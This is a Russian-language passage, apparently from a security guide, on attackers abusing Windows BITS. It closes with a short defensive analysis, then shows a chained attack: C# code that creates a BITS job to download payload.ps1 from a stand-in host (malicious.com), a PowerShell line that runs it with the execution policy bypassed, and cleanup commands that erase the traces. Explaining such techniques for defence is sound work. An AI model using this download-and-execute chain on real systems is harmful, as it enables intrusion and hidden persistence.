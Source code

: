 **Анализ:**  
- **Цель**: Передача украденных данных с минимальным риском обнаружения.  
- **Методы сокрытия**: Маскировка задания под системное и автоматическое удаление после завершения.  
- **Рекомендации по защите**: Регулярный аудит заданий BITS и мониторинг сетевого трафика.

---

### Пример 3: Использование BITS для цепной атаки через API

**Шаги злоумышленников:**

1. **Создание задания через BITS API**:  
   Злоумышленник использует BITS API для создания задания, которое скачивает скрипт PowerShell с удалённого сервера.

   ```csharp
   using System;
   using Bits;

   class ChainAttack
   {
       static void Main()
       {
           var manager = new BackgroundCopyManager();
           IBackgroundCopyJob job;

           // Создание задания BITS
           manager.CreateJob("ChainAttackJob", BG_JOB_TYPE.BG_JOB_TYPE_DOWNLOAD, out job);
           job.AddFile("https://malicious.com/payload.ps1", @"C:\Temp\payload.ps1");
           job.Resume();

           Console.WriteLine("Скрипт PowerShell загружен.");
       }
   }
   ```

2. **Выполнение загруженного скрипта**:  
   После завершения загрузки скрипт PowerShell выполняется для выполнения дальнейших действий.

   ```powershell
   powershell.exe -ExecutionPolicy Bypass -File "C:\Temp\payload.ps1"
   ```

3. **Дальнейшие действия скрипта**:  
   Скрипт PowerShell может:
   - Скачивать дополнительные модули.
   - Выполнять команды на заражённой системе.
   - Устанавливать устойчивость.

4. **Удаление задания и временных файлов**:  
   После выполнения скрипта задание и временные файлы удаляются.

   ```powershell
   Remove-BitsTransfer -BitsJob $job
   Remove-Item "C:\Temp\payload.ps1"
   ```
